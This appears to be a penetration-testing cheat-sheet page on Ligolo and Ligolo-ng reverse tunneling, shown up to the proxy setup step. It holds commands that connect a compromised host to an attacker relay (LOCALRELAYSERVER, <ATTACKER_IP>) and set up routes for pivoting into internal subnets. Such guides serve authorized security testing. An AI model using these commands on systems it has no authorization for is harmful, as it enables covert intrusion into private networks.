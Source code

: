 ## Ligolo

Ligolo : Reverse Tunneling made easy for pentesters, by pentesters


1. Build Ligolo
  ```powershell
  # Get Ligolo and dependencies
  cd `go env GOPATH`/src
  git clone https://github.com/sysdream/ligolo
  cd ligolo
  make dep

  # Generate self-signed TLS certificates (will be placed in the certs folder)
  make certs TLS_HOST=example.com

  make build-all
  ```
2. Use Ligolo
  ```powershell
  # On your attack server.
  ./bin/localrelay_linux_amd64

  # On the compromise host.
  ligolo_windows_amd64.exe -relayserver LOCALRELAYSERVER:5555
  ```

## Ligolo-ng

Ligolo-ng : An advanced, yet simple, tunneling tool that uses TUN interfaces.

#### Single Pivot
1. Downloading the binaries.
- The proper binaries can be downloaded from [here](https://github.com/nicocha30/ligolo-ng/releases/tag/v0.5.2).

2. Setting up the ligolo-ng interface and IP routes.
- The initial step is to create a new interface and add an IP route to the subnet that we want to pivot to through this interface. We can easily do it through the following bash script.
```bash
#!/bin/bash

ip tuntap add user root mode tun ligolo
ip link set ligolo up
ip route add <x.x.x.x\24> dev ligolo
```

- We can then run the script by issuing the `chmod +x ligolo-ng_setup.sh && ./ligolo-ng_setup.sh`

3. Setting up the ligolo-ng proxy.
- After the interface has been setup, we can now start the ligolo-ng proxy. We can use any `<PROXY_PORT>` we want as long as it not already in use.
`./proxy -laddr <ATTACKER_IP>:<PROXY_PORT> -selfcert`
